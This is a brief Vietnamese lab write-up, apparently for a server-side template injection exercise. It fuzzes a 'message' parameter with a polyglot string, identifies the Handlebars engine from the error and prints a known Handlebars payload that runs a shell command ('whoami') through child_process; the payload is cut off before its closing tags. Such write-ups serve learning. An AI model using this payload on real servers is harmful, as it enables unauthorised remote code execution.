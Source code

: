 
### **Server-side template injection in an unknown language with a documented exploit**

Sau một hồi đọc HTML src của website, ta không thể tìm thấy nơi nó handle nội dung của parame `message` → khả năng template ở server side sẽ xử lý cái này

![Untitled](wu_media/Untitled%2016.png)

Gửi payload `message=${{<%[%'"}}%\` ta được error

![Untitled](wu_media/Untitled%2017.png)

→ Xác định được server sử dụng Handlebar template

Tìm được payload SSTI RCE cho template này

```jsx
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
```